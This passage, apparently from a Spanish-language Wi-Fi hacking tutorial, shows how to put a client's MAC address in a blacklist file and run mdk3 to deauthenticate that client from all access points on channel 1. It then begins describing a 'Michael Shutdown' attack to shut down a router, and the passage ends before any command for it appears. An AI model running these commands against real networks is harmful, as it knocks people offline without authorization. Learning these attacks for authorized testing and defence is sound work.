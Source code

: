 - En mi caso voy a indicar la direccion **MAC** **84:4B:F5:48:6C:CF** que es el cliente que quiero expulsar.

```bash
❯ nvim blacklist
❯ catn blacklist
84:4B:F5:48:6C:CF
```

- Ahora para hacer el ataque simplemente usamos la herramienta `mdk3`.

```bash
❯ mdk3 wlan0mon d -w blacklist -c 1

Periodically re-reading blacklist/whitelist every 3 seconds
```

- Todos los **AP** que operen en el canal 1 va a estar expulsando a todos los clientes que tengan esa dirección **MAC** que indicamos en el archivo **blacklist**.

## Michael Shutdown Exploitation

- Este ataque lo que nos permite es apagar un **router** el problema de este ataque es que no es muy efectivo no hay mucha documentación sobre este ataque. 

<p align="center">
<img src="/assets/wifi/hacking-wpa2/d2.png">
</p>

- Como vemos no hay mucha información sobre este ataque a si que vamos a hacerlo de todas formas para este ataque necesitamos la herramienta `mdk3`.
